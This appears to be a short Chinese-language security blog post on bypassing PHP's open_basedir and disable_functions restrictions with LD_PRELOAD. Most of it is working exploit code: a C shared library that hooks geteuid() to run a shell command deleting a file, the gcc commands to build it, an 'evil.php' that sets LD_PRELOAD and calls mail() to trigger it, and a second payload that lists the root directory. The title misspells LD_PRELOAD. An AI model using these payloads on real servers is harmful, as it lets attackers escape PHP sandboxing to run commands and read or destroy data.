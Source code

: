 ```yaml
---
title: LRE_PAYLOAD绕过open_basedir
tags: web安全
abbrlink: 51203
date: 2018-06-04 10:10:00
description: 利用LRE_PRELOAD绕过php代码中open_basedir的限制
keywords: LRE_PRELOAD-PHP-open_basedir
---
```


# LRE_PAYLOAD绕过open_basedir

参考链接:

[利用环境变量LD_PRELOAD绕过disable_function执行系统命令](http://wooyun.jozxing.cc/static/drops/tips-16054.html)

[PHP绕过open_basedir列目录的研究](https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.html)

源码:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void payload() {
	system("rm /tmp/check.txt");
}
int  geteuid() {
	if (getenv("LD_PRELOAD") == NULL) { return 0; }
	unsetenv("LD_PRELOAD");
	payload();
}

```

编译:

```
gcc -c -fPIC shell.c -o teset
gcc -shared teset -o test.so
```

evil.php

```
<?php
putenv("LD_PRELOAD=/var/www/html/preload/test.so");
	mail("a@localhost","","","","");
?>
```

执行evil.php ，可以发现check.txt被删除。

列目录的payload:

```
#include <dirent.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
void payload()
{
    DIR* dir;
    struct dirent* ptr;
    dir = opendir("/");
    FILE  *fp;
    fp=fopen("/tmp/venenoveneno","w");
    while ((ptr = readdir(dir)) != NULL) {
        fprintf(fp,"%s\n",ptr->d_name);
    }
    closedir(dir);
    fflush(fp);
}
int geteuid()
{
    if (getenv("LD_PRELOAD") == NULL) {
        return 0;
    }
    unsetenv("LD_PRELOAD");
    payload();
}
```



